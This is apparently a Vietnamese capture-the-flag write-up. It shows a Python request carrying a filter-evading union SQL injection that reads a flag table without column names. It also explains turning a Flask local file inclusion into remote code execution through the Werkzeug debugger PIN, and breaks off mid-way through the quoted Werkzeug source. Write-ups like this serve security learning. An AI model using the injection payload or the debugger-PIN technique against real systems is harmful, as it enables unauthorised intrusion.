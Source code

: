 Table name: `Th1z_Fack1n_Fl4444g_Tabl3`

### Get flag without knowing column name
Cách này đã được anh @tsug0d mô tả cực kì chi tiết và dễ hiểu trong [blog](https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/) của anh nên mình không dài dòng nữa. Get flag thôi! 

```python
res = requests.post('http://45.77.240.178:8002/index.php', data={
    'id': '5 union/*' + 'a'*1000000 + '*/select 1,b,3 from (select 1 a, 2 b union select * from Th1z_Fack1n_Fl4444g_Tabl3 limit 1,1)x'
})
```

![](https://i.imgur.com/iAgHzHz.jpg)

### Another way from the author
![](https://i.imgur.com/PVK8WBT.jpg)
🎉🎉🎉

## The Prophet
```
Wohoo, wanna hear some oracle?
```
Bài này chỉ có 1 chức năng cơ bản là đọc các file text có tên từ 1 - 5. Khi ta thử file `6.txt`, trang xuất hiện giao diện thông báo lỗi của Flask, chứng tỏ debug mode đang được enabled.
Trong giao diện báo lỗi, chúng ta có thể đọc 1 phần source code đã bị disclosed:

![](https://i.imgur.com/WvzEivs.jpg)

Ta dễ dàng thấy được lỗi Local File Inclusion (LFI) trong đoạn code xử lí đọc file này. Biến `filename` được truyền thẳng đến hàm `open()` và nội dung được đưa ra ngoài thông qua hàm `render_template()`. 

Ngay lúc này, mình nhận ra rằng việc chúng ta có lỗi LFI sẽ dẫn đến việc có thể [generate](https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/) được debugger PIN code, sau đó sử dụng chức năng Interactive shell được tích hợp trong giao diện lỗi của Flask để có thể leverage lên RCE.

Sau khi làm theo bài hướng dẫn generate PIN code và đã có được PIN, giờ chỉ việc submit PIN và RCE thôi, nhưng đời không như mơ và cuộc sống không dễ thở...

![](https://i.imgur.com/lP07KrD.jpg)

Ok, tự trong đầu nghĩ chắc đây cũng là ý của tác giả thôi, chắc có chỗ nào đâu đó trong phần xử lí nhập PIN này có thể vượt được, let check it out. 🧐

```python {hl_lines=["10-26", 32, "44-46", "48-50"]}
# https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py
# ...
def hash_pin(pin):
    if isinstance(pin, text_type):
        pin = pin.encode("utf-8", "replace")
    return hashlib.md5(pin + b"shittysalt").hexdigest()[:12]
# ...
class DebuggedApplication(object):
    # ...
    def check_pin_trust(self, environ):
        """Checks if the request passed the pin test.  This returns `True` if the
        request is trusted on a pin/cookie basis and returns `False` if not.
        Additionally if the cookie's stored pin hash is wrong it will return
        `None` so that appropriate action can be taken.
        """
        if self.pin is None:
            return True
```